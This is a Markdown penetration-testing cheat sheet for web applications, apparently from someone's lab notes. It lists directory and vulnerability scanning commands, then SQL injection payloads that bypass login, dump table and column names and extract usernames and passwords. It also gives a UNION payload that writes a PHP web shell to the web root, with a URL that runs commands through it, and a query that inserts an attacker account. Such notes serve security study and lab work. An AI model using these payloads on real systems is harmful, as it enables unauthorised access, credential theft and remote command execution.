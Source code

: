 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/web-apps.md#table-of-contents">Top of Page</a> |
  <a href="/CheatSheets/web-apps.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheets - Web Apps
## Table of Contents
* [Enumerate](#enumerate)
* [Exploit](#exploit)
* [Explore](#explore)
* [Effect](#effect)

## Enumerate
```bash
dirb $TARGET -r -z10 # recursive; wait 10 milliseconds between delays
```
```bash
sudo apt install dirsearch
dirsearch -u $TARGET -o /home/victor/pwk/labs/$TARGET/scans/$TARGET-dirsearch --format=simple
```
```bash
nikto -h $TARGET -maxtime=30s -o scans/$TARGET-nikto-30seconds.txt
nikto -h $TARGET -T 2 # scan for misconfiguration vulnerabilities
nikto -h $TARGET -T 9 # scan for SQL injection vulnerabilities
```

Finding SQL Injection Vulnerabilities
```bash
` # single-quote
# the resulting error may indicate the underlying web server software, database software, and server OS 
```

## Exploit
SQL Comments
```
# MySQL, MariaDB
-- Oracle
/* Oracle
*/ Oracle
```

SQL Injection Attacks
```
# bypass auth (put SQLi in the username field; username might be required so supply that at least)
victor' or 1=1; -- 

# bypass auth (put SQLi in the username field; the LIMIT keyword might be necessary for some databases)
victor' or 1=1 LIMIT=1; -- 

' ORDER BY 1 # sort results based on the values of the first column

' UNION ALL SELECT 1,2,3 # return all rows 
' UNION ALL SELECT 1,2 @@version # return the database version
' UNION ALL SELECT 1,2 user() # return the acct running the database

# return all table names
' UNION ALL SELECT 1,2 table_name FROM information_schema.tables 

# return all column names
' UNION ALL SELECT 1,2 column_name FROM information_schema.columns WHERE table_name = 'usertbl' 

# return records from users table; put users in column 2, password in column 3 of output
' UNION ALL SELECT 1, username, password FROM usertbl 

# invoke PHP and echo PHP code into a file
' UNION ALL SELECT 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE '/var/www/html/webshell.php'
firefox http://victim.edu/webshell.php?cmd=whoami # navigate to and use the above LFI
```

## Explore
SQL Database Queries
```sql
SELECT * FROM targetdb.usertbl; # database.table
USE targetdb;
SELECT * FROM usertbl;
```

## Effect
Add a new user to a SQL database
```sql
INSERT INTO targetdb.usertbl(username, password) VALUES ('victor','please');
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/web-apps.md#table-of-contents">Top of Page</a> |
  <a href="/CheatSheets/web-apps.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
